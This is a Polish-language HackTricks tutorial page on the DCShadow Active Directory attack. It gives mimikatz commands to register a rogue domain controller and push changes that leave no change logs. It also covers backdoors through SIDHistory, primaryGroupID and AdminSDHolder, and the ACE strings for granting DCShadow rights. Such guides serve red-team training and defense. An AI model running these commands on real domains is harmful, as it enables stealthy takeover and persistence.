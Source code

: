 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

Rejestruje **nowy kontroler domeny** w AD i używa go do **wypychania atrybutów** (SIDHistory, SPNs...) na określonych obiektach **bez** pozostawiania jakichkolwiek **logów** dotyczących **zmian**. Musisz mieć uprawnienia DA i być w **domenie głównej**.\
Zauważ, że jeśli użyjesz błędnych danych, pojawią się dość brzydkie logi.

Aby przeprowadzić atak, potrzebujesz 2 instancji mimikatz. Jedna z nich uruchomi serwery RPC z uprawnieniami SYSTEM (musisz tutaj wskazać zmiany, które chcesz wprowadzić), a druga instancja będzie używana do wypychania wartości:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Wymaga DA lub podobnego" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Zauważ, że **`elevate::token`** nie zadziała w sesji `mimikatz1`, ponieważ podnosi uprawnienia wątku, ale musimy podnieść **uprawnienia procesu**.\
Możesz również wybrać obiekt "LDAP": `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Możesz wprowadzić zmiany z konta DA lub z konta użytkownika z minimalnymi uprawnieniami:

* W **obiekcie domeny**:
* _DS-Install-Replica_ (Dodaj/Usuń replikę w domenie)
* _DS-Replication-Manage-Topology_ (Zarządzaj topologią replikacji)
* _DS-Replication-Synchronize_ (Synchronizacja replikacji)
* Obiekt **Sites** (i jego dzieci) w **kontenerze konfiguracji**:
* _CreateChild and DeleteChild_
* Obiekt **komputera, który jest zarejestrowany jako DC**:
* _WriteProperty_ (Nie Write)
* Obiekt **docelowy**:
* _WriteProperty_ (Nie Write)

Możesz użyć [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1), aby nadać te uprawnienia użytkownikowi bez uprawnień (zauważ, że pozostawi to pewne logi). To jest znacznie bardziej restrykcyjne niż posiadanie uprawnień DA.\
Na przykład: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  Oznacza to, że nazwa użytkownika _**student1**_ po zalogowaniu na maszynie _**mcorp-student1**_ ma uprawnienia DCShadow do obiektu _**root1user**_.

## Używanie DCShadow do tworzenia backdoorów

{% code title="Ustawienie Enterprise Admins w SIDHistory dla użytkownika" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Zmień PrimaryGroupID (dodaj użytkownika do grupy Domain Administrators)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Modyfikacja ntSecurityDescriptor AdminSDHolder (przyznanie Pełnej Kontroli użytkownikowi)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Przyznaj uprawnienia DCShadow używając DCShadow (bez zmodyfikowanych logów uprawnień)

Musimy dodać następujące ACE z SID naszego użytkownika na końcu:

* Na obiekcie domeny:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* Na obiekcie komputera atakującego: `(A;;WP;;;UserSID)`
* Na obiekcie użytkownika docelowego: `(A;;WP;;;UserSID)`
* Na obiekcie Sites w kontenerze Configuration: `(A;CI;CCDC;;;UserSID)`

Aby uzyskać aktualny ACE obiektu: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Zauważ, że w tym przypadku musisz dokonać **kilku zmian,** a nie tylko jednej. Tak więc, w **sesji mimikatz1** (serwer RPC) użyj parametru **`/stack` z każdą zmianą,** którą chcesz wprowadzić. W ten sposób będziesz musiał tylko **`/push`** raz, aby wykonać wszystkie zablokowane zmiany na serwerze rogue.



[**Więcej informacji o DCShadow na ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)


{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
